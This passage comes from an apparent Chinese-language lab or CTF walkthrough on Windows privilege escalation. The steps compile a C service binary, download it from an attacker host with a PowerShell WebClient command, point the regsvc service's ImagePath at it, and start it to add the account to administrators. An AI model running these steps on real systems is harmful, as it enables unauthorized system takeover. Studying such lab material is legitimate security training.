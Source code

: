 ```
    
    ServiceStatus.dwCurrentState = SERVICE_RUNNING; 
    SetServiceStatus (hStatus, &ServiceStatus);
 
    while (ServiceStatus.dwCurrentState == SERVICE_RUNNING)
    {
		Sleep(SLEEP_TIME);
    }
    return; 
}

void ControlHandler(DWORD request) 
{ 
    switch(request) 
    { 
        case SERVICE_CONTROL_STOP: 
			ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
 
        case SERVICE_CONTROL_SHUTDOWN: 
            ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
        
        default:
            break;
    } 
    SetServiceStatus (hStatus,  &ServiceStatus);
    return; 
} 



```

2. 编译文件
> x86_64-w64-mingw32-gcc windows_service.c -o x.exe 

3. 把x.exe文件传回靶机。放到```C:\Temp```下面
> powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.13.21.169:8000/x.exe','C:\temp\x.exe')"

4. 命令行输入：
>  reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f

5. 开启服务：
> sc start regsvc

现在查看admin用户组，就可以看到本账户已经被添加到administrators组：
> net localgroup administrators
